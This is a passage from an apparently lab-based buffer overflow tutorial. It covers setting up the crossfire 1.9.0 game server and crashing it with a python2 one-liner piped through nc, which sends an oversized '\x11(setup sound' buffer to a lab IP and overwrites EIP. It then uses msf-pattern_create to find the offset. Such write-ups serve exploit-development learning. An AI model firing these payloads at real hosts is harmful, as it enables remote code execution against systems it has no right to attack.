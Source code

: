 So, now we have reverse shell directly from the vulnserver!

We going on that linux buffer overflow, and now we going to go against crossfire binary file, which is part of the game crossfire, the file can be found on offensive security site on the following link: [crossfire](https://www.offensive-security.com/crossfire.tar.gz), then we decompress it using the following command `tar -zxvf crossfire.tar.gz`, also note the creossfire should be found under `/usr/games/`.

After you have run crossfire from your linux you should see listener on port 13327 as follow
```bash
└─$ netstat -tunap
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:13327           0.0.0.0:*               LISTEN      24614/crossfire/bin
```

Then on the linux server side, run EDB and open crossfire from it, only then we can start and test the buffer overflow against it. Now, we can look for the exploit that used for crossfire 1.9.0, the [exploit](https://www.exploit-db.com/exploits/50216) contain buffer size of 4379 which what we going to use, also you can see that the buffer variable contain the following which look like essential for exploit crossfire: `\x11(setup sound " + overflow + "\x90\x00#`, so that is the string we going to use for our case. The following line of code is what I used against it.

```bash
python2 -c 'print "\x11(setup sound " + "\x41"*4379 + "\x90\x00#"'| nc -nv 192.168.126.36 13327
```

![bo-043.png](/assets/images/bo-043.png)
**Figure 43** Overwrite the EIP on crossfire.

You can see that this code overwrite the EIP with `\x41`, so now we going to use msf-pattern_create for create pattern and understand where the EIP are locate.
```
msf-pattern_create -l 4379
```

Run the code with the bunch of string that this msf-pattern give me, I can see the following on EDB at the crash point.

![bo-044.png](/assets/images/bo-044.png)
**Figure 44** Crossfire EIP overwrite.
